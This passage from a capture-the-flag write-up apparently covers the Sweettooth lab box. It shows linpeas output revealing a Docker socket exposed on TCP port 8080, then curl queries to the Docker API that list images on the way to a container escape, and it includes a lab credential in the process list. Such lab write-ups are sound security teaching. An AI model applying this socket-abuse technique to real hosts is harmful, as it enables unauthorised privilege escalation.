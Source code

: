 ### Privilege escalation

After performing the customary [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) run, we see that there are some references to docker.sock in the list of unexpected processes run by root. This is a lead that implies that the ssh service and influxdb might be running from a docker container.

I'm not pasting the entire linpeas footage, but find the relevant extract below:

```
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                          
root         1  0.0  0.5  20048  2792 ?        Ss   18:57   0:00 /bin/bash -c chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk6Ry***** -c '/initializeandquery.sh & /entrypoint.sh influxd'                                                                                  
root         7  0.0  0.5  44764  2688 ?        S    18:57   0:00 /bin/su uzJk6Ry***** -c /initializeandquery.sh & /entrypoint.sh influxd
uzJk6Ry+    10  0.0  0.4  11620  2364 ?        Ss   18:57   0:00  _ bash -c /initializeandquery.sh & /entrypoint.sh influxd
uzJk6Ry+    12  0.6  0.4  11676  2516 ?        S    18:57   0:01      _ /bin/bash /initializeandquery.sh
uzJk6Ry+  6789  0.0  0.5  19652  2656 ?        S    18:59   0:00      |   _ socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock
uzJk6Ry+  8083  0.0  0.7  70872  3732 ?        R    19:01   0:00      |   _ curl -o /dev/null -G http://localhost:8086/query?pretty=true --data-urlencode q=show databases --data-urlencode u=o5yY6yya --data-urlencode p=mJjeQ44e2unu
```

We can see above that process 1 makes /var/run/docker.sock writable, starts the ssh service and and runs as the user  uzJk****** the scripts initializeandquery.sh and entrypoint.sh with influxd parameter.

What's key to privilege escalation though is process 6789, that allow access on port 8080 TCP to the unix socket docker.sock.

Doing some research online I found this blog post from secureideas.com that describe how to escape the current container if you have access to the docker.sock:

https://secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html

Unfortunately the curl command in our session doesn't support the `--unix-socket` option, but as we seen above we can access docker.sock on TCP port 8080.

Doing that change, using localhost:8080 as target of our http queries, we can obtain valuable data. For example the available docker images:

```
uzJk********@c637b44a6c1e:~$ curl -s localhost:8080/images/json | jq '.'
[
  {                                                                                                                                             
    "Containers": -1,                                                                                                                           
    "Created": 1621349458,                                                                                                                      
    "Id": "sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e",                                                            
    "Labels": {},                                                                                                                               
    "ParentId": "sha256:213cc0db00922f32cf219291c2f81dfd410304b093a44703927a1db630d7722d",                                                      
    "RepoDigests": null,                                                                                                                        
    "RepoTags": [                                                                                                                               
      "sweettoothinc:latest"                                                                                                                    
```